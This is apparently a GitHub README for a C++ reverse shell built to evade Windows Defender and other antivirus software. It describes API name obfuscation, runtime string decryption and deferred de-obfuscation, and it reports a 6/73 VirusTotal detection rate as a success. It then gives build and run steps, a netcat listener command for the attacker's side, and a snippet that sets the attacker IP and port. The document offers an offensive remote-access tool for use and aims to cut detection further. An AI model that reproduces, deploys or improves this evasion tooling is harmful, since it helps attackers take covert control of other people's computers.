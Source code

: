 # Bypassing-Windows-Defender

## Project Overview

This project focuses on developing a C++ reverse shell that initially triggers detection by Windows Defender and other AV solutions. The challenge was to bypass these detections through various obfuscation techniques. The current state of the project has successfully reduced detection rates significantly, as demonstrated by testing on VirusTotal.

## Key Features of the Project


- **Advanced API Obfuscation:** 
  - Applied a custom obfuscation algorithm to crucial Windows API functions like `LoadLibrary` and `GetProcAddress`. By obscuring these function calls, the reverse shell becomes significantly harder to reverse-engineer, providing an additional layer of evasion against static analysis tools.
  - Implemented runtime string decryption to hide function names and other sensitive information from memory until they are required for execution

  
- **Network Communication via Winsock:** 
  - Integrated socket programming to establish TCP communication dynamically. This setup allows the reverse shell to connect to predefined IP addresses and ports for remote system access.
  - Implemented flexible communication parameters, allowing easy modification of the server's IP and port settings without altering the core code.


- **Dynamic De-obfuscation Logic:** 
  - Developed lightweight, runtime de-obfuscation functions to resolve obfuscated API calls. These functions allow the reverse shell to perform necessary tasks while keeping obfuscation in place until the last possible moment, reducing the chance of detection by behavioral analysis.

# VirusTotal Results

The obfuscated reverse shell has been tested on VirusTotal and achieved a detection rate of `6/73`, indicating significant success in bypassing most antivirus engines, including Windows Defender. The goal of future iterations will be to further reduce this detection rate.

![VirusTotal_POC](https://github.com/user-attachments/assets/b0a095f6-5ffd-467b-a646-1cf7a47353c4)

## How to Run It

## 1. Prerequisites

- **Compiler**: Visual Studio with C++ support
- **Windows SDK**: Installed with necessary headers for Windows API programming
- **Socket Library**: Ensure `winsock2.h` is available
- **Administrator Privileges**: Required for running certain operations like socket creation

## 2. Steps to Compile and Execute

### Clone the repository:

```bash
git clone https://github.com/kaddiri/Bypassing-windows-defender.git
cd Bypassing-windows-defender
```
### Open the project in **Visual Studio**.
### Configure the project:

- Make sure to link the Winsock2 library by adding `ws2_32.lib` to the linker settings.
- Ensure all paths for the Windows SDK and required headers are correctly set.
  
### Compile the project:

- Select the build configuration (Debug/Release).
- Build the solution by clicking on **Build** > **Build Solution**.
  
### Run the reverse shell:

- Execute the compiled binary as an administrator for it to work properly.
- On the attacker’s side, set up a listener to receive the reverse shell connection:
  ```bash
  nc -lvp <PORT>
  ```
### Modify the IP address and port in the source code to match your attacker's machine:

```cpp
const char* ip_address = "10.0.2.15";  // Change this to your IP
int port = 4444;                       // Change this to your listener port
```
